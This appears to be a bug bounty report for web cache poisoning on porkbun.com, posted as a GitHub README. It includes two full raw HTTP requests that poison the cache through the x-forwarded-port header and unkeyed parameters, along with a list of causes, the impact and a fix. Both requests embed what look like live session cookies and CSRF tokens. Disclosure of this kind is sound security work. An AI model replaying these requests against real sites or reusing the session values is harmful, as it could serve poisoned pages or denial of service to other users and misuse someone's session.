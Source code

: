# porkbun-bug-bounty-report

I found the problem of cache poisoning in porkbun.com. A poisoned web cache can potentially be a devastating means of distributing numerous different attacks, exploiting vulnerabilities such as XSS, JavaScript injection, open redirection, and so on.

Steps To Reproduce

Use x-forwarded-port to destroy the cache, repeat the request until porkbun.com appears in the response.


GET /?a0u1texhuy=1&utm_content=dq9i330jie HTTP/1.1

Host: porkbun.com

Accept-Encoding: gzip, deflate, br, a0u1texhuy

Accept: /, text/a0u1texhuy

Accept-Language: en-US,a0u1texhuy;q=0.9,en;q=0.8

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.183 Safari/537.36 a0u1texhuy

Connection: close

Cache-Control: max-age=0

Origin: https://a0u1texhuy.porkbun.com

x-forwarded-port: zwrtxqvas9lm4kzkia

Cookie: _gcl_aw=GCL.1724153528.EAIaIQobChMI-OjSqryDiAMVy4xLBR3P4AxpEAMYASAAEgKq-PD_BwE; _gcl_gs=2.1.k1$i1724153526; _gcl_au=1.1.627762540.1724153528; _rdt_uuid=1724153529706.7697f77c-0b08-4e9d-9656-4250bb4ca58a; _uetsid=d665bec05ee711ef9442d5febf9ba8d5; _uetvid=d665eda05ee711ef92c69b8d2739c72c; _gid=GA1.2.1220392463.1724153531; _gac_UA-59154711-1=1.1724153531.EAIaIQobChMI-OjSqryDiAMVy4xLBR3P4AxpEAMYASAAEgKq-PD_BwE; _clck=71ho1w%7C2%7Cfoh%7C0%7C1693; BUNPRINT2=0a4af8764489c70abb72e6add738b269a637c69e70cf33422c45c044593adeb4; _clsk=i1182c%7C1724155306683%7C4%7C1%7Ch.clarity.ms%2Fcollect; __stripe_mid=51ac6f49-3b67-4bbe-ad7e-bcc3f210984b357ab2; BUNSESSION2=K5Z%2CXBbzPi7edvTn1dan2FGx-1UV7ytZi7WJ-MZPyLjIXwsy; aws-waf-token=157666fd-9bf9-4158-8263-0e0870c9a55d:FAoAuOZVZ1IVAAAA:X3fLNs7rJghEazguFIoNAsfAoLqiuRD9bnLUrlv+0hq5QKVJXFRn1kbg64WUEiPlm8bzGZTjdtYjoZ+hBQ+HXbOjLpLO4obO+vjRN3phOy3mdVINctAovzQX0ksQz7UhC/nzwDF3cKJjtZ3ZNJyRMDpINF1TikWBDpJ96fG4RdmtGogEUf/rrPjK2L0UdOHMix6pCyZed2MKf4GCzYWQZZr3DF/CsRmi2OdwE/rgxcKAmLLwaKGkJpZL; BUNSOURCE=0b3a2874f61d12ba97f272cb4c4c4046cbca49c1db07338d1cd7b3d3b5139220; cartId=bf5d6202e272f4202fe791ab1bdda57e51db34ad49ad227758715eaf5c09a848; _ga_YT848K9MDY=GS1.1.1724156228.2.0.1724156228.60.0.1821101490; _ga=GA1.1.2011873201.1724153528; csrf_pb=5081ec68c2d4d758f99ba3722ed793da; BUNPRINT=50c4cf0c37ec2ec84fee99711cf80e97; PPRB=eb2c68ce4d; PRB=72aed6ea0b; AWSALB=rxQoqrX6eLPexU5JQK25y9tDKI8X8zwgn1gt/pFTaRWcZJ6PIyGBScsA0px7IGAIIHR5xb5m6tvh3q/fiALCstV6DlKofuJ9QZmYjmYZKVpXq//M+u9VDFIalf3U; AWSALBCORS=rxQoqrX6eLPexU5JQK25y9tDKI8X8zwgn1gt/pFTaRWcZJ6PIyGBScsA0px7IGAIIHR5xb5m6tvh3q/fiALCstV6DlKofuJ9QZmYjmYZKVpXq//M+u9VDFIalf3U

2. Remove the parameters, x-forwarded-port, and origin in the request header. Then send the request, the cache has been polluted (due to the cache hit, it may take several more requests).




GET /?a0u1texhuy=1 HTTP/1.1

Host: porkbun.com

Accept-Encoding: gzip, deflate, br, a0u1texhuy

Accept: /, text/a0u1texhuy

Accept-Language: en-US,a0u1texhuy;q=0.9,en;q=0.8

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.183 Safari/537.36 a0u1texhuy

Connection: close

Cache-Control: max-age=0

Origin: https://a0u1texhuy.porkbun.com

Cookie: _gcl_aw=GCL.1724153528.EAIaIQobChMI-OjSqryDiAMVy4xLBR3P4AxpEAMYASAAEgKq-PD_BwE; _gcl_gs=2.1.k1$i1724153526; _gcl_au=1.1.627762540.1724153528; _rdt_uuid=1724153529706.7697f77c-0b08-4e9d-9656-4250bb4ca58a; _uetsid=d665bec05ee711ef9442d5febf9ba8d5; _uetvid=d665eda05ee711ef92c69b8d2739c72c; _gid=GA1.2.1220392463.1724153531; _gac_UA-59154711-1=1.1724153531.EAIaIQobChMI-OjSqryDiAMVy4xLBR3P4AxpEAMYASAAEgKq-PD_BwE; _clck=71ho1w%7C2%7Cfoh%7C0%7C1693; BUNPRINT2=0a4af8764489c70abb72e6add738b269a637c69e70cf33422c45c044593adeb4; _clsk=i1182c%7C1724155306683%7C4%7C1%7Ch.clarity.ms%2Fcollect; __stripe_mid=51ac6f49-3b67-4bbe-ad7e-bcc3f210984b357ab2; BUNSESSION2=K5Z%2CXBbzPi7edvTn1dan2FGx-1UV7ytZi7WJ-MZPyLjIXwsy; aws-waf-token=157666fd-9bf9-4158-8263-0e0870c9a55d:FAoAuOZVZ1IVAAAA:X3fLNs7rJghEazguFIoNAsfAoLqiuRD9bnLUrlv+0hq5QKVJXFRn1kbg64WUEiPlm8bzGZTjdtYjoZ+hBQ+HXbOjLpLO4obO+vjRN3phOy3mdVINctAovzQX0ksQz7UhC/nzwDF3cKJjtZ3ZNJyRMDpINF1TikWBDpJ96fG4RdmtGogEUf/rrPjK2L0UdOHMix6pCyZed2MKf4GCzYWQZZr3DF/CsRmi2OdwE/rgxcKAmLLwaKGkJpZL; BUNSOURCE=0b3a2874f61d12ba97f272cb4c4c4046cbca49c1db07338d1cd7b3d3b5139220; cartId=bf5d6202e272f4202fe791ab1bdda57e51db34ad49ad227758715eaf5c09a848; _ga_YT848K9MDY=GS1.1.1724156228.2.0.1724156228.60.0.1821101490; _ga=GA1.1.2011873201.1724153528; csrf_pb=5081ec68c2d4d758f99ba3722ed793da; BUNPRINT=50c4cf0c37ec2ec84fee99711cf80e97; PPRB=eb2c68ce4d; PRB=72aed6ea0b; AWSALB=rxQoqrX6eLPexU5JQK25y9tDKI8X8zwgn1gt/pFTaRWcZJ6PIyGBScsA0px7IGAIIHR5xb5m6tvh3q/fiALCstV6DlKofuJ9QZmYjmYZKVpXq//M+u9VDFIalf3U; AWSALBCORS=rxQoqrX6eLPexU5JQK25y9tDKI8X8zwgn1gt/pFTaRWcZJ6PIyGBScsA0px7IGAIIHR5xb5m6tvh3q/fiALCstV6DlKofuJ9QZmYjmYZKVpXq//M+u9VDFIalf3U



3.Other users visit the https://porkbun.com/ page, and the result has been poisoned.



4.The currently discovered causes of cache poisoning:

url params (if there is reflected XSS on the server side, it will be very dangerous)

x-forwarded-port header
x-forwarded-url header

Recommendations
Cache poisoning is caused by different requests hitting the same cache. Remove these influencing factors, or only cache requests with unchanged results.

Impact

Launch a denial of service attack
If a page contains url parameters or request header reflection XSS, cache poisoning can easily spread the page containing malicious code to other people without the need to communicate with the victim
Issue detail

 The application uses a cache that does not include every query parameter in the cache key. This means the cache can be manipulated into saving responses that have been influenced by these parameters.

Burp set the following parameter in the request:

utm_content=dq9i330jie

This resulted in a response containing dq9i330jie. I then resent the request with a different parameter value and got the same response, indicating that it had been cached.



More ways to exploit:
https://portswigger.net/research/practical-web-cache-poisoning
https://portswigger.net/research/web-cache-entanglement
